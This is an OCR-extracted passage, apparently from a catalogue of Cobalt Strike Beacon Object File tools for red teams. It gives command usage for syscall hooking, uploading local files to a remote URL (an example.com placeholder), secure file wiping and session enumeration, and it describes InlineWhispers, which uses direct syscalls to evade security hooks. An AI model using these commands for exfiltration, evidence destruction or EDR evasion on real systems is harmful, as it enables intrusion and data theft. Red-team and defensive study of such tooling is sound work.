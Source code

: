 
`stopservice "MyService"`

#### SyscallHook

Hooks a system call to monitor or modify its behavior.

`- **<syscall number/name>**: `System call identifier.
`- **<path to hook handler>**: `Path to the hook handler binary.



`syscallhook NtCreateFile "C:\Path\To\HookHandler.dll"`

#### UploadFile

Uploads a file to a remote server.

`- **<local path>**: `Path to the local file to upload.
`- **<remote URL>**: `URL of the server to upload to.
`- **<POST/PUT>**:` HTTP method to use for the upload.



`uploadfile "C:\Path\To\File.txt" "http://example.com/upload" POST`

#### WipeFile

Securely deletes a file from the filesystem.

`- **<path to file>**: `Path to the file to be wiped.



`wipefile "C:\Path\To\SecretFile.txt"`


https://github.com/REDMED-X/OperatorsKit/


#### BOF-Quser

An implementation of the `quser` command as a Beacon Object File (BOF) using the Windows API to query session information on a local or remote system.

bash

`Usage: bof-quser <target ip/hostname>`


https://github.com/netero1010/Quser-BOF




#### InlineWhispers

A tool to facilitate the use of direct system calls in Cobalt Strike's Beacon Object Files (BOFs) to evade common security product hooks that monitor Win32 API functions.

**What is this repository for?** To demonstrate the ability to make direct syscalls from within BOFs, enhancing the stealth of the operations by avoiding hooked API calls.

**How do I set this up?**
